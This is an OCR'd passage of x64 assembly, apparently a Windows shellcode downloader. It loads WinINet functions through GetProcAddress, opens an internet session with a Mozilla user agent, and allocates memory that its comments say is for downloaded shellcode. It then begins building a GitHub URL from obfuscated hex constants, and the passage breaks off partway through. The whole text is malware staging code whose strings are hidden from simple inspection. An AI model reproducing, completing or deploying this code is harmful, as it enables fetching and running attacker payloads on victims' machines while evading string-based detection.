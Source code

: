 ```nasm
    mov rax, 0x6E614865736F6C43         ; Load "CloseHan" into RAX
    push rax
    mov rax, 0x74656E7265746E49     ; Load "Internet" into RAX                  
    push rax
    mov rdx, rsp                    ; RDX points to "InternetCloseHandle" (second argument)
    sub rsp, 0x38
    call rsi              ; Call GetProcAddress
    add rsp, 0x30
    mov r12, rax                    ; store InternetCloseHandle    

; ---- InternetOpenA ----
    xor rdx, rdx
    mov eax, 0x90302E35
    shl eax, 0x8
    shr eax, 0x8
    push rax
    mov rax, 0x2F616C6C697A6F4D
    push rax
    mov rcx, rsp             ; lpszAgent
    mov edx, 1               ; INTERNET_OPEN_TYPE_DIRECT
    xor r8, r8               ; lpszProxy
    xor r9, r9               ; lpszProxyBypass
    mov qword [rsp+0x20], 0  ; dwFlags
    sub rsp, 0x30
    call r15                 ; InternetOpenA
    add rsp, 0x30
    mov rdi, rax                 ; hInternet saved handle

; ---- Allocate memory for the saved file/buffer ----
    mov rcx, 0                    ; LPVOID lpAddress = NULL
    mov rdx, 0x5000               ; SIZE_T dwSize = 20 KB for shellcode
    mov r8d, 0x3000               ; MEM_COMMIT | MEM_RESERVE
    mov r9d, 0x04                 ; PAGE_READWRITE temporarily
    add rsp, 96
    mov rax, [rsp+80]
    mov rsi, rax                  ; save to call again :)
    call rax
    ;sub rsp, 96
    ;sub rsp, 8
    pop r15        ; buffer memory address for downloaded file/shellcode

; --- Allocate memory for the long ass URL because other ways didn't work --- 

    mov rcx, 0                    ; LPVOID lpAddress = NULL
    mov rdx, 0x100               ; SIZE_T dwSize = 100 for URL
    mov r8d, 0x3000               ; MEM_COMMIT | MEM_RESERVE
    mov r9d, 0x04                 ; PAGE_READWRITE temporarily
    mov rax, rsi                  ; save to call again :)
    call rax
    push rax

    mov r9, [rsp+72]              ;rtlmovememory



    pop rsi                      ;memory address for the long GITHUB url
; --- transfer URL to new memory region for easier management ---
    sub rsp, 152
    mov rax, 0x906F6E79642E6765
    shl rax, 0x8
    shr rax, 0x8
    push rax
    mov rax, 0x722F6E69616D2F73
```